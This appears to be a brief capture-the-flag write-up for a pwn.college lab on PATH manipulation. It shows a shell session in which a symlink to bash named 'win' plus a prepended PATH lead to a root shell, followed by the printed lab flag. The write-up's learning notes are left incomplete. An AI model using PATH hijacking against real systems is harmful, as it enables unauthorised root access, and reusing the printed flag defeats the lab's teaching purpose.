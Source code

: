 # Adding Commands
## Code:
```bash
hacker@path~adding-commands:~$ ln -s /usr/bin/bash ./win
hacker@path~adding-commands:~$ PATH=/home/hacker/:$PATH
hacker@path~adding-commands:~$ /challenge/run
Invoking 'win'....
root@path~adding-commands:~# cat /flag
pwn.college{8AQ1VUu1PaMNcVe1NhzNZSKtmzS.dZzNyUDL5kDN0czW}
```
## Learning:
 I learnt how to  in linux
## References:
 Completely Copied from google
